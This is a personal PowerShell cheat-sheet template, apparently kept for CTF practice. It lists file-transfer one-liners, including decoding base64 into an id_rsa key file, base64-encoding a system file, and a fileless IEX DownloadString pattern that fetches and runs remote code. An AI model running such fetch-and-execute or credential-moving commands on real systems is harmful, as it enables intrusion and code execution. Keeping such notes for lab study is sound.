 # Powershell

_What this tool does and when I reach for it_

## Primary Use Cases

Main things I use this tool for

## Command Patterns

Decode base64 to file
```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("base64 content"))
```
^decode-base64-to-file

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
^encode-file-contents-to-base64

Get file MD5 hash
```powershell
Get-FileHash <file> -Algorithm md5 | Select Hash
```
^get-file-md5-hash

```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```
^downloadfile-method

```powershell
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>','<Output File Name>')
# or
(New-Object Net.WebClient).DownloadString('<Target File URL>','<Output File Name>') | IEX
```
^downloadstring-method-fileless

```powershell
Invoke-WebRequest <Target File URL> -OutFile <Output File Name> -UseBasicParsing
```
^outfile-invoke-webrequest

### Category 2

Brief description of this category

command syntax ^powershell-category2

### Category 3

Brief description of this category

command syntax ^powershell-category3

## Syntax I Forget

- Flag or option I always look up
- Parameter format I can't remember
- Output options or file formats

## When I Use This vs Alternatives

- **Use this tool when:** Specific circumstances
- **Use alternative when:** When other tools are better
- **Combines well with:** Tools that work together with this

## Personal Notes

- Things I learned from experience
- Common mistakes I made
- Environment-specific quirks

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #powershell
SORT file.ctime DESC
LIMIT 5
```

## Quick Links

- [[Primary-Technique]] - Main technique this supports
- [[Secondary-Technique]] - Other technique this supports

#powershell #tool